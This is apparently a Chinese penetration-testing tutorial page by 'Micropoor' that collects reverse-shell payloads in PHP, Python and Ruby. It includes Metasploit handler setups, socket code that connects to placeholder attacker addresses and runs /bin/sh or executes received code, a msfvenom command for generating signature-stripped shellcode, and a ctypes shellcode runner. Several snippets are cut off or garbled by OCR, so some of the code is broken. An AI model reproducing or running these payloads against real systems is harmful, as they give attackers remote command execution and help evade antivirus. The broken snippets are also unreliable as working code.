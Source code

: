 专注APT攻击与防御
https://micropoor.blogspot.com/

在实战中可能会遇到各种诉求payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了PHP，python，ruby。

ps:在线代码高亮：http://tool.oschina.net/highlight

**1.php-payload**
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```php
<?
php error_reporting(0); $ip = 'x.x.x.x'; $port = 53; if (($f = 'stream_socket_client') && is_callable($f)) { 
{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_ 
strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s;
$GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('s 
>
```
![](media/c62949c5cacf6d6a5605200311aa5b9a.jpg)

```
<?php
$sock=fsockopen("xx.xx.xx.xx",xx);exec("/bin/sh -i <&3 >&3 2>&3"); 
?>
```
![](media/107730c867318d074cc21b9b490d8e8d.jpg)

**2.python-payload**
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```
```python
import socket,struct,time 
for x in range(10):
    try:
        s=socket.socket(2,socket.SOCK_STREAM)
        s.connect(('x.x.x.x',xx)) 
        break
    except:
        time.sleep(5) l=struct.unpack('>I',s.recv(4))[0] 
d=s.recv(l)
while len(d)<l: 
    d+=s.recv(l-len(d))
exec(d,{'s':s})
```
![](media/56fa0d76a0ef5b598d14f8a67de449b7.jpg)

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",xx));i"]);`
![](media/268f5cbb31121e9d7f37909587296e7a.jpg)

```python
import socket import subprocess

s=socket.socket()
s.connect(("xx.xx.xx.xx",xx)) while 1:
p = subprocess.Popen(s.recv(1024), shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subpro s.send(p.stdout.read() + p.stderr.read())
```
![](media/710a81ff2c29a516aa878760e1fbd110.jpg)

删除特征：
```bash
root@John:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=8.8.8.8 LPORT=88 -f c | tr -d '"' | tr -d '\n'
```
![](media/34aeea621a28e0377b370eda4a63aaa2.jpg)

```python
from ctypes import *

reverse_shell = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72
micropoorshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(micropoorshell, CFUNCTYPE(c_void_p))
shellcode()
```

**2.ruby-payload**
```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx", x);$stdin.reopen(c);$stdout.reopen(c);$stderr.reopen(c);$stdi
(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil}
```
![](media/5253458a976fd4e0212059638751245b.jpg)

```ruby
require 'socket';f=TCPSocket.open("xx.xx.xx.xx",xx).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)
```
![](media/b9032b829c6a977288c32948088801b6.jpg)

```ruby
require 'socket';c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end  
```
![](media/cdb7a522f8eb1facc72265a923ef173e.jpg)

```ruby
c=TCPSocket.new("xx.xx.xx.xx","xx");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print
io.read}end
```
![](media/9246e2313d4cbcb3c4dacced7c25e0c1.jpg)

>   Micropoor
